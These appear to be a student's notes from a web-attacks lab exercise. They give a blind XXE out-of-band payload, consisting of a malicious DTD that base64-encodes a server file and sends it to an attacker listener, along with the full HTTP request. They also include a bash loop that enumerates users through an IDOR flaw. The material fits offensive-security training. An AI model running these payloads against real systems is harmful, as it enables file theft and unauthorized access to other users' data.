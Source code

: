 Steps:
1. Set the file xxe.dtd
2. set python http.server
3. Set the payload in request
4. decode the base64 to see the flag

1. 
```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.57:8000/?content=%file;'>">

```
2. 
```bash
python3 -m http.server

```

3. 
```bash
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.207.224
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 242
Origin: http://10.129.207.224
Connection: keep-alive
Referer: http://10.129.207.224/blind/

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.57:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>
<name>admin</name>
<tel></tel>
<email>&content;</email>
<message>sdaca</message>
</root>

```


# Web Attacks - Skills Assesment

## IDOR enum user
```bash 
#!/bin/bash

for i in {1..101}; do
    url="http://94.237.63.201:55896/api.php/user/$i"
    response=$(curl -s "$url" \
        -H "Host: 94.237.63.201:55896" \\
        -H "Cookie: PHPSESSID=h4bnfl2gog0so1veesn7fuath6; uid=$i")
    echo "$response"
done

```
